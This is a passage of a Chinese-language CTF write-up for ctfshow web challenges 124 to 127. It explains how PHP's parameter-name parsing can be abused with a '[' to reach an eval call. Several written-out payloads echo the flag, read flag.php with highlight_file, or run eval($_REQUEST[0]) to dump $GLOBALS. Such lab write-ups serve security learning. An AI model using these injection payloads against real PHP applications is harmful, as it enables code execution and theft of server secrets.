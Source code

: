 要求传入一个CTF_SHOW和一个CTF_SHOW.COM但是php通过get和post穿传时变量名中的(.,+,空格)会变成_

但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换

借鉴：https://blog.csdn.net/solitudi/article/details/120502141

payload：CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag

## WEB125

和123差不多但是过滤了flag和echo

从eval入手利用highlight_file回显flag

GET:?mumuzi=flag.php

POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[mumuzi])

## WEB126

![126](img/126.png)

非预期：通过$_REQUEST的参数逃逸

payload：get: ?0=var_export($GLOBALS);
post: CTF_SHOW=1&CTF[SHOW.COM=1&fun=eval($_REQUEST[0])



## WEB127 变量覆盖

![127](img/127.png)
